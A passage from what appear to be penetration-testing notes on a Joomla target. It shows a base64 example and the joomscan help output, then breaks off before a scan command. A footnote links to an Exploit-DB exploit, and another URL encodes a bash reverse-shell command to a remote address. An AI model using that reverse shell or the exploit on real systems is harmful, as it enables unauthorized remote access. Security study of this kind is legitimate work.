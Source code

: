 	echo -n 1 | base64

`MQ==`

- Note: It may not have padding it were a url version of base64. base64 doesn't always have padding.

### Reconnaissance with joomscan

#### No man page; check help

	joomscan -h

```text
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

   

Help :

Usage:  joomscan [options]

--url | -u <URL>                |   The Joomla URL/domain to scan.
--enumerate-components | -ec    |   Try to enumerate components.

--cookie <String>               |   Set cookie.
--user-agent | -a <User-Agent>  |   Use the specified User-Agent.
--random-agent | -r             |   Use a random User-Agent.
--timeout <Time-Out>            |   Set timeout.
--proxy=PROXY                   |   Use a proxy to connect to the target URL
           Proxy example: --proxy http://127.0.0.1:8080
                                  https://127.0.0.1:443
                                  socks://127.0.0.1:414
                                  
--about                         |   About Author
--help | -h                     |   This help screen.
--version                       |   Output the current version and exit.
```

	joomscan --url

### Run scan, piped to tee because there's no output file option


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency